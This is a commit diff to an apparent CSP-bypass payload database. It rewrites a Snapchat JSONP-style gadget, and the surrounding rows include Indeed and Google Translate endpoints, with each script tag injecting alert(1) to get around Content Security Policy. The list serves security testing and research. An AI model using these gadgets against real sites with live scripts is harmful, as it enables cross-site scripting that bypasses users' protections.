

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Fixed snapchat to not use slashes

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -191,3 +191,3 @@ track.consensus.app  <script src="https://track.consensus.app/track/?callback=al
 tr.indeed.com	<script src="https://tr.indeed.com/m/newjobs?q=&l=&ts=1734358724474&callback=alert"></script>
-tr.snapchat.com	<script src="https://tr.snapchat.com/config/com/')%7Dcatch(e)%7B%7D%7D()%3balert(1)%2f%2f.js"></script>
+tr.snapchat.com	<script src="https://tr.snapchat.com/config/com/%27%29%3B%7Dcatch%28e%29%7B%7D%7D%3Balert%281%29%3B%21function%28%29%7Btry%7B%28%27.js"></script>
 translate-pa.googleapis.com  <script src="https://translate-pa.googleapis.com/v1/supportedLanguages?callback=alert(1)"></script>
```
